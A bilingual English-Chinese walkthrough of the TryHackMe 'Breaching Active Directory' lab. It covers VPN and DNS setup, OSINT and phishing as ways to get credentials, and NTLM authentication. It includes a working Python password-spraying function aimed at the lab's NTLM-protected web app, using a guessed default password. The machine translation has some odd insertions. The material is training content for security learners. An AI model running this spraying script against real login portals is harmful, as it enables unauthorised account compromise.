# Breaching Active Directory

# 破坏活动目录

This network covers techniques and tools that can be used to acquire that first set of AD credentials that can then be used to enumerate AD.
该网络涵盖了可用于获取第一组 AD 凭据的技术和工具，然后可以使用这些凭据来枚举 AD。



网络拓扑




### task 1

Active Directory (AD) is used by approximately 90% of the Global Fortune 1000 companies. If an organisation's estate uses Microsoft Windows, you are almost guaranteed to find AD. Microsoft AD is the dominant suite used to manage Windows domain networks. However, since AD is used for Identity and Access Management of the entire estate, it holds the keys to the kingdom, making it a very likely target for attackers.
全球财富 1000 强企业中约有 90% 使用 Active Directory ( AD )。如果一个组织使用 Microsoft Windows 系统，那么几乎可以肯定它部署了 AD。Microsoft AD 是管理 Windows 域网络的主流套件。然而，由于 AD 用于整个组织的身份和访问管理，它掌握着关键的控制权，因此极易成为攻击者的目标。

For a more in-depth understanding of AD and how it works, [please complete this room on AD 广告 basics first. 先从基础开始。](https://tryhackme.com/jr/winadbasics)
为了更深入地了解 AD 及其工作原理，请完成此房间的问卷。

Breaching Active Directory
破坏活动目录

Before we can exploit AD misconfigurations for privilege escalation, lateral movement, and goal execution, you need initial access first. You need to acquire an initial set of valid AD credentials. Due to the number of AD services and features, the attack surface for gaining an initial set of AD credentials is usually significant. In this room, we will discuss several avenues, but this is by no means an exhaustive list.
在利用 AD 配置错误进行权限提升、横向移动和目标执行之前，首先需要获得初始访问权限。您需要获取一组有效的 AD 凭据。由于 AD 服务和功能众多，获取初始 AD 凭据的攻击面通常很大。在本次会议中，我们将讨论几种途径，但这绝非全部途径。

When looking for that first set of credentials, we don't focus on the permissions associated with the account; thus, even a low-privileged account would be sufficient. We are just looking for a way to authenticate to AD, allowing us to do further enumeration on AD itself.
在寻找第一组凭据时，我们并不关注帐户的权限；因此，即使是低权限帐户也足够了。我们只是在寻找一种能够对 AD 进行身份验证的方法，以便对 AD 本身进行进一步枚举。

Learning Objectives 学习目标

In this network, we will cover several methods that can be used to breach AD. This is by no means a complete list as new methods and techniques are discovered every day. However, we will cover the following techniques to recover AD credentials in this network:
在本网络中，我们将介绍几种可用于入侵 AD 的方法。这绝非完整列表，因为每天都会发现新的方法和技术。但是，我们将介绍以下几种用于恢复本网络中 AD 凭据的技术：

- NTLM Authenticated Services 认证服务
- LDAP Bind Credentials 绑定凭据
- Authentication Relays 认证中继
- Microsoft Deployment Toolkit
  Microsoft 部署工具包
- Configuration Files 配置文件

We can use these techniques on a security assessment either by targeting systems of an organisation that are internet-facing or by implanting a rogue device on the organisation's network.
我们可以通过两种方式在安全评估中使用这些技术：一是针对组织面向互联网的系统，二是向组织的网络植入恶意设备。

Connecting to the Network
连接到网络

**AttackBox 攻击盒**

If you are using the Web-based AttackBox, you will be connected to the network automatically if you start the AttackBox from the room's page. You can verify this by running the ping command against the IP of the THMDC.za.tryhackme.com host. We do still need to configure DNS, however. Windows Networks use the Domain Name Service (DNS) to resolve hostnames to IPs. Throughout this network, DNS will be used for the tasks. You will have to configure DNS on the host on which you are running the VPN connection. In order to configure our DNS, run the following command:
如果您使用的是基于 Web 的 AttackBox，从房间页面启动 AttackBox 后，您将自动连接到网络。您可以通过对 THMDC.za.tryhackme.com 主机的 IP 地址运行 ping 命令来验证这一点。但是，我们仍然需要配置 DNS。Windows 网络使用域名服务 ( DNS ) 将主机名解析为 IP 地址。整个网络将使用 DNS 来完成各项任务。您需要在运行 VPN 连接的主机上配置 DNS 。要配置 DNS ，请运行以下命令：

Terminal 终端

```shell-session
[thm@thm]$ sed -i '1s|^|nameserver THMDCIP\n|' /etc/resolv-dnsmasq
```

 

Remember to replace THMDCIP with the IP of THMDC in your network diagram. Once done, make sure to restart the DNS service using `systemctl restart dnsmasq`. You can test that DNS is working by running:
请记住将网络拓扑图中的 THMDCIP 替换为 THMDC 的 IP 地址。完成后，务必使用 `systemctl restart dnsmasq` 重启 DNS 服务。您可以通过运行以下命令测试 DNS 是否正常工作：

```
nslookup thmdc.za.tryhackme.com
```

This should resolve to the IP of your DC.
这应该会解析到您的数据中心的 IP 地址。

**Note: DNS may be reset on the AttackBox roughly every 3 hours. If this occurs, you will have to rerun the command specified above. If your AttackBox terminates and you continue with the room at a later stage, you will have to redo all the DNS steps.
注意：攻击机上的 DNS 大约每 3 小时重置一次。如果发生这种情况，您需要重新运行上述命令。如果您的攻击机终止，并且您稍后继续使用该房间，则需要重新执行所有 DNS 设置步骤。**

You should also take the time to make note of your VPN IP. Using `ifconfig` or `ip a`, make note of the IP of the **breachad** network adapter. This is your IP and the associated interface that you should use when performing the attacks in the tasks.
您还应该花时间记下您的 VPN IP 地址。使用 `ifconfig` 或 `ip a` ，记下 **Breachad** 网络适配器的 IP 地址。这就是您在执行任务中的攻击时应该使用的 IP 地址和关联的接口。

**Other Hosts 其他主持人**

If you are going to use your own attack machine, an OpenVPN configuration file will have been generated for you once you join the room. Go to your [access](https://tryhackme.com/access) page. Select 'BreachingAD' from the VPN servers (under the network tab) and download your configuration file.
如果您要使用自己的攻击机，加入房间后系统会自动为您生成一个 OpenVPN 配置文件。请前往您的[访问](https://tryhackme.com/access)页面，在 VPN 服务器（位于“网络”选项卡下）中选择“BreachingAD”，然后下载您的配置文件。


Use an OpenVPN client to connect. This example is shown on a Linux machine; similar guides to connect using Windows or macOS can be found at your [access](https://tryhackme.com/access) page.
使用 OpenVPN 客户端进行连接。本示例在 Linux 系统上演示；您可以在[访问](https://tryhackme.com/access)页面找到使用 Windows 或 macOS 系统连接的类似指南。

Terminal 终端

```shell-session
[thm@thm]$ sudo openvpn breachingad.ovpn
Fri Mar 11 15:06:20 2022 OpenVPN 2.4.9 x86_64-redhat-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] built on Apr 19 2020
Fri Mar 11 15:06:20 2022 library versions: OpenSSL 1.1.1g FIPS  21 Apr 2020, LZO 2.08
[....]
Fri Mar 11 15:06:22 2022 /sbin/ip link set dev tun0 up mtu 1500
Fri Mar 11 15:06:22 2022 /sbin/ip addr add dev tun0 10.50.2.3/24 broadcast 10.50.2.255
Fri Mar 11 15:06:22 2022 /sbin/ip route add 10.200.4.0/24 metric 1000 via 10.50.2.1
Fri Mar 11 15:06:22 2022 WARNING: this configuration may cache passwords in memory -- use the auth-nocache option to prevent this
Fri Mar 11 15:06:22 2022 Initialization Sequence Completed
```

The message "Initialization Sequence Completed" tells you that you are now connected to the network. Return to your access page. You can verify you are connected by looking on your access page. Refresh the page, and you should see a green tick next to Connected. It will also show you your internal IP address.
“初始化序列完成”消息表示您已连接到网络。返回您的访问页面。您可以通过查看访问页面来确认连接状态。刷新页面后，您应该会在“已连接”旁边看到一个绿色对勾。页面上还会显示您的内部 IP 地址。


**Note:** You still have to configure DNS similar to what was shown above. It is important to note that although not used, the DC does log DNS requests. If you are using your own machine, these logs may include the hostname of your device. For example, if you run the VPN on your kali machine with the hostname of kali, this will be logged.
**注意：** 您仍然需要配置与上述类似的 DNS 设置。需要注意的是，尽管域控制器 (DC) 不使用 DNS 请求日志，但它会记录这些请求。如果您使用的是自己的机器，这些日志可能包含您设备的主机名。例如，如果您在主机名为 kali 的 Kali 机器上运行 VPN ，则该主机名将被记录。

**Kali 时间**

If you are using a Kali VM, Network Manager is most likely used as DNS manager. You can use GUI Menu to configure DNS:
如果您使用的是 Kali 虚拟机，则 Network Manager 很可能被用作 DNS 管理器。您可以使用图形用户界面菜单来配置 DNS：

- Network Manager -> Advanced Network Configuration -> Your Connection -> IPv4 Settings
  网络管理器 -> 高级网络配置 -> 您的连接 -> IPv4 设置
- Set your DNS IP here to the IP for THMDC in the network diagram above
  在此处将 DNS IP 地址设置为上方网络图中 THMDC 的 IP 地址。
- Add another DNS such as 1.1.1.1 or similar to ensure you still have internet access
  添加另一个 DNS 服务器地址，例如 1.1.1.1 或类似地址，以确保您仍然可以访问互联网。
- Run `sudo systemctl restart NetworkManager` and test your
  运行 `sudo systemctl restart NetworkManager` 并测试您的DNS similar to the steps above.
  与上述步骤类似。

Debugging DNS
调试 DNS

DNS will be a part of Active Directory testing whether you like it or not. This is because one of the two major AD authentication protocols, Kerberos, relies on DNS to create tickets. Tickets cannot be associated with IPs, so DNS is a must. If you are going to test AD networks on a security assessment, you will have to equip yourself with the skills required to solve DNS issues. Therefore, you usually have two options:
无论你是否喜欢， DNS 都将是 Active Directory 测试的一部分。这是因为两大 AD 身份验证协议之一 Kerberos 依赖 DNS 来创建票据。票据不能与 IP 地址关联，因此 DNS 必不可少。如果你要进行 AD 网络安全评估，则必须具备解决 DNS 问题所需的技能。因此，你通常有两种选择：

- You can hardcode  你可以硬编码DNS entries into your `/etc/hosts` file. While this may work well, it is infeasible when you will be testing networks that have more than 10000 hosts.
  在 `/etc/hosts` 文件中添加条目。虽然这种方法可能有效，但如果您要测试拥有超过 10000 台主机的网络，则这种方法不可行。
- You can spend the time required to debug the DNS issue to get it working. While this may be harder, in the long run, it will yield you better results.
  您可以花些时间调试 DNS 问题，直到它正常工作。虽然这可能更难，但从长远来看，会带来更好的结果。

Whenever one of the tasks within this room is not working for you, your first thought should be: *Is my DNS working?* From experience, I, the creator of this network, can tell you that I've wasted countless hours on assessments wondering why my tooling is not working, only to realise that my DNS has changed.
如果这个房间里的任何一项任务无法正常运行，你首先应该想到的是： *我的 DNS 设置是否正常？* 作为这个网络的创建者，我以亲身经历告诉你，我曾浪费无数时间进行评估，苦苦思索工具为何无法工作，最终才发现是 DNS 设置发生了变化。

Whenever you think that your DNS configuration might not be working as it should, follow these steps to do some debugging:
如果您怀疑 DNS 配置可能出现故障，请按照以下步骤进行调试：

1. Follow the steps provided above. Make sure to follow the steps for your specific machine type.- If you use a completely different OS, you will have to do some googling to find your equivalent configuration.
   请按照上述步骤操作。务必确保步骤与您的机器型号相匹配。如果您使用的是完全不同的操作系统，则需要自行搜索相关信息以找到相应的配置。
2. Run `ping <THM DC IP>` - This will verify that the network is active. If you do not get a response from the ping, it means that the network is not currently active. If your network says that it is running after you have refreshed the room page and you still get no ping response, contact
   运行 `ping <THM DC IP>` - 这将验证网络是否处于活动状态。如果 ping 命令没有响应，则表示网络当前未激活。如果您刷新房间页面后网络显示正在运行，但仍然没有 ping 响应，请联系我们。THM 三卤甲烷 support but simply waiting for the network timer to run out before starting the network again will fix the issue.
   虽然可以提供支持，但只需等待网络计时器结束再重新启动网络即可解决此问题。
3. Run `nslookup za.tryhackme.com <THM DC IP>` - This will verify that the DNS server within the network is active, as the domain controller has this functional role. If the ping command worked but this does not, time to contact support since there is something wrong. It is also suggested to hit the network reset button.
   运行 `nslookup za.tryhackme.com <THM DC IP>` - 这将验证网络中的 DNS 服务器是否处于活动状态，因为域控制器具有此功能角色。如果 ping 命令有效但此命令无效，则需要联系技术支持，因为存在问题。建议同时尝试重置网络。
4. Finally, run `nslookup tryhackme.com` - If you now get a different response than the one in step three, it means there is something wrong with your
   最后，运行 `nslookup tryhackme.com` ——如果您现在得到的响应与第三步中的响应不同，则表示您的配置存在问题。DNS configuration. Go back to the configuration steps at the start of the task and follow them again. A common issue seen on Kali is that the
   配置。返回任务开始时的配置步骤，并再次按照步骤操作。Kali 上常见的问题是……DNS entry is placed as the second one in your `/etc/resolv.conf` file. By making it the first entry, it will resolve the issue.
   该条目目前位于 `/etc/resolv.conf` 文件的第二个位置。将其改为第一个条目即可解决此问题。

These AD networks are rated medium, which means if you just joined THM, this is probably not where you should start your learning journey. AD is massive and you will need to apply the mindset of *figuring stuff* *out* if you want to make a success of testing it. However, if all of the above still fails, please be as descriptive as possible on what you are trying to do when you contact support, to allow them to help you as efficiently as possible.
这些 AD 网络被评为中等难度，这意味着如果您刚加入 THM ，这可能不是您学习之旅的起点 。AD 非常庞大，如果您想成功进行测试，就需要具备*探索和解决问题**的*能力。但是，如果以上方法仍然无效，请在联系支持团队时尽可能详细地描述您遇到的问题，以便他们能够最高效地帮助您。

使用windows电脑连接vpn后，要更改dns配置，接下来是windows电脑更改教程

找到控制面板里面的网络和Internet



点进去



更改适配器设置



右键属性



添加DNS服务器



测试



配置成功





### task 2

Two popular methods for gaining access to that first set of AD credentials is Open Source Intelligence (OSINT) and Phishing. We will only briefly mention the two methods here, as they are already covered more in-depth in other rooms.
获取第一组 AD 凭据的两种常用方法是开源情报 ( OSINT ) 和网络钓鱼。我们在此仅简要提及这两种方法，因为其他房间已对其进行了更深入的探讨。

**OSINT 开源情报**

OSINT is used to discover information that has been publicly disclosed. In terms of AD credentials, this can happen for several reasons, such as:
开源情报（OSINT） 用于发现已公开披露的信息。就 AD 凭据而言，这种情况可能由多种原因造成，例如：

- Users who ask questions on public forums such as [Stack Overflow(opens in new tab)](https://stackoverflow.com/)
  在 Stack Overflow 等公共论坛上提问的用户 but disclose sensitive information such as their credentials in the question.
  但问题中却泄露了敏感信息，例如他们的资质证书。
- Developers that upload scripts to services such as [Github(opens in new tab)](https://github.com/)
  将脚本上传到 GitHub 等服务的开发者 with credentials hardcoded.
  凭据已硬编码。
- Credentials being disclosed in past breaches since employees used their work accounts to sign up for other external websites. Websites such as [HaveIBeenPwned(opens in new tab)](https://haveibeenpwned.com/)
  过去的安全漏洞导致凭证泄露，原因是员工使用工作账户注册其他外部网站。例如 HaveIBeenPwned 等网站。 and [DeHashed(opens in new tab)](https://www.dehashed.com/) 和 DeHashed provide excellent platforms to determine if someone's information, such as work email, was ever involved in a publicly known data breach.
  提供优秀的平台，以确定某人的信息（例如工作电子邮件）是否曾卷入公开已知的泄露事件。

By using OSINT techniques, it may be possible to recover publicly disclosed credentials. If we are lucky enough to find credentials, we will still need to find a way to test whether they are valid or not since OSINT information can be outdated. In Task 3, we will talk about NTLM Authenticated Services, which may provide an excellent avenue to test credentials to see if they are still valid.
利用开源情报（OSINT） 技术，或许可以恢复公开披露的凭证。即便我们幸运地找到了凭证，仍然需要找到方法来验证其有效性，因为开源情报信息可能已经过时。在任务 3 中，我们将讨论 NTLM 身份验证服务，它或许能为验证凭证是否仍然有效提供绝佳途径。

A detailed room on Red Team OSINT can be found [here.](https://tryhackme.com/jr/redteamrecon)
这里有关于红队开源情报的详细讨论 [。](https://tryhackme.com/jr/redteamrecon)

**Phishing 网络钓鱼**

Phishing is another excellent method to breach AD. Phishing usually entices users to either provide their credentials on a malicious web page or ask them to run a specific application that would install a Remote Access Trojan (RAT) in the background. This is a prevalent method since the RAT would execute in the user's context, immediately allowing you to impersonate that user's AD account. This is why phishing is such a big topic for both Red and Blue teams.
网络钓鱼是另一种入侵 AD 的绝佳方法。网络钓鱼通常会诱骗用户在恶意网页上提供凭据，或者要求他们运行某个特定应用程序，该应用程序会在后台安装远程访问木马 (RAT)。这种方法非常普遍，因为 RAT 会在用户的上下文中执行，从而立即允许攻击者冒充该用户的 AD 帐户。正因如此，网络钓鱼对于红蓝双方来说都是一个重要的课题。

A detailed room on phishing can be found [here.](https://tryhackme.com/module/phishing)
这里有一个关于网络钓鱼的详细页面 [。](https://tryhackme.com/module/phishing)




### task 3

NTLM 和 NetNTLM

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication mechanism is heavily used by the services on a network. However, services that use NetNTLM can also be exposed to the internet. The following are some of the popular examples:
新技术局域网管理器 ( NTLM ) 是一套用于在 AD 中验证用户身份的安全协议。NTLM 可以通过一种称为 NetNTLM 的基于质询-响应的方案进行身份验证。这种身份验证机制被网络上的服务广泛使用。然而，使用 NetNTLM 的服务也可能暴露在互联网上。以下是一些常见示例：

- Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (
  内部托管的 Exchange（邮件）服务器，公开 Outlook Web 应用程序（OWA) login portal. 登录门户。
- Remote Desktop Protocol (
  远程桌面协议RDP) service of a server being exposed to the internet.
  ）服务器暴露于互联网的服务。
- Exposed  裸露VPN endpoints that were integrated with
  与以下设备集成的端点AD 广告.
- Web applications that are internet-facing and make use of NetNTLM.
  面向互联网并使用 NetNTLM 的 Web 应用程序。

NetNTLM, also often referred to as Windows Authentication or just NTLM Authentication, allows the application to play the role of a middle man between the client and AD. All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user.
NetNTLM（也常被称为 Windows 身份验证或简称 NTLM 身份验证）允许应用程序充当客户端和 AD 之间的中间人。所有身份验证材料都以质询的形式转发到域控制器，如果质询成功，应用程序将对用户进行身份验证。

This means that the application is authenticating on behalf of the user and not authenticating the user directly on the application itself. This prevents the application from storing AD credentials, which should only be stored on a Domain Controller. This process is shown in the diagram below:
这意味着应用程序代表用户进行身份验证，而不是直接在应用程序本身上对用户进行身份验证。这可以防止应用程序存储 AD 凭据，这些凭据只能存储在域控制器上。此过程如下图所示：


Brute-force Login Attacks
暴力破解登录攻击

As mentioned in Task 2, these exposed services provide an excellent location to test credentials discovered using other means. However, these services can also be used directly in an attempt to recover an initial set of valid AD credentials. We could perhaps try to use these for brute force attacks if we recovered information such as valid email addresses during our initial red team recon.
如任务 2 所述，这些暴露的服务为测试通过其他方式发现的凭据提供了绝佳场所。此外，这些服务也可直接用于尝试恢复初始的有效 AD 凭据集。如果我们在初始红队侦察期间恢复了诸如有效电子邮件地址之类的信息，或许可以尝试利用这些凭据进行暴力破解攻击。

Since most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, we need to perform a password spraying attack. Instead of trying multiple different passwords, which may trigger the account lockout mechanism, we choose and use one password and attempt to authenticate with all the usernames we have acquired. However, it should be noted that these types of attacks can be detected due to the amount of failed authentication attempts they will generate.
由于大多数 AD 环境都配置了帐户锁定，我们无法执行完整的暴力破解攻击。因此，我们需要执行密码喷洒攻击。我们不尝试多个不同的密码（这可能会触发帐户锁定机制），而是选择并使用一个密码，然后尝试使用我们已获取的所有用户名进行身份验证。但是，需要注意的是，这类攻击会因为产生大量的身份验证失败尝试而被检测到。

You have been provided with a list of usernames discovered during a red team OSINT exercise. The OSINT exercise also indicated the organisation's initial onboarding password, which seems to be "Changeme123". Although users should always change their initial password, we know that users often forget. We will be using a custom-developed script to stage a password spraying against the web application hosted at this URL:
您已收到一份在红队开源情报 (OSINT) 演练中发现的用户名列表。该演练还指出了该组织的初始注册密码，似乎是“Changeme123”。虽然用户应该始终更改其初始密码，但我们知道用户经常会忘记。我们将使用自定义脚本对托管于以下 URL 的 Web 应用程序执行密码喷洒攻击：[http://ntlmauth.za.tryhackme.com](http://ntlmauth.za.tryhackme.com/).

Navigating to the URL, we can see that it prompts us for Windows Authentication credentials:
访问该网址后，我们可以看到它提示我们输入 Windows 身份验证凭据：


**Note:** *Firefox's Windows Authentication plugin is incredibly prone to failure. If you want to test credentials manually, Chrome is recommended.*
**注意：** *Firefox 的 Windows 身份验证插件极易失效。如果您想手动测试凭据，建议使用 Chrome。*

We could use tools such as
我们可以使用一些工具，例如[Hydra 九头蛇(opens in new tab)](https://github.com/vanhauser-thc/thc-hydra) to assist with the password spraying attack. However, it is often better to script up these types of attacks yourself, which allows you more control over the process. A base python script has been provided in the task files that can be used for the password spraying attack. The following function is the main component of the script:
为了辅助进行密码喷洒攻击，我们提供了脚本。然而，通常最好自己编写这类攻击脚本，这样可以更好地控制整个过程。任务文件中提供了一个可用于密码喷洒攻击的基础 Python 脚本。以下函数是该脚本的主要组成部分：

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

This function takes our suggested password and the URL that we are targeting as input and attempts to authenticate to the URL with each username in the textfile. By monitoring the differences in HTTP response codes from the application, we can determine if the credential pair is valid or not. If the credential pair is valid, the application would respond with a 200 HTTP (OK) code. If the pair is invalid, the application will return a 401 HTTP (Unauthorised) code.
